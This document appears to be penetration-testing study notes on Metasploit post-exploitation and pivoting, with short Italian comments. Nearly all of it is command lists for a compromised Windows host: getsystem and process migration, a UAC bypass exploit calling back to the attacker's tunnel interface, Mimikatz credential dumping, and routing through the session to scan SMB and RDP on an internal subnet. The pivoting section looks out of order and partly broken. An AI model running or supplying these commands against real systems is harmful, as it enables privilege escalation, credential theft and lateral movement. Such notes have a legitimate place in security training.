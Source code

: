 ## 20.3.2. Post-Exploitation Modules

msfconsole:

```bash
getsystem
ps
migrate 8044
getuid

shell

powershell -ep bypass
Import-Module NtObjectManager
Get-NtTokenIntegrityLevel

^Z

bg

search UAC

use exploit/windows/local/bypassuac_sdclt
show options
set SESSION $SESSION_NUMBER
set LHOST tun0
run

shell
powershell -ep bypass
Import-Module NtObjectManager
Get-NtTokenIntegrityLevel

bg

use exploit/multi/handler
run

getsystem
load kiwi
help
creds_msv
```

## 20.3.3. Pivoting with Metasploit

Stessi passi di prima.

msfconsole:

```bash
bg

route add $SUBNET_TARGET/24 $SESSION_NUMBER
route print



set RHOSTS $IP_TARGET
set PORTS 445,3389
run

use multi/manage/autoroute
set SMBUser $USERNAME
set SMBPass "PASSWORD"
```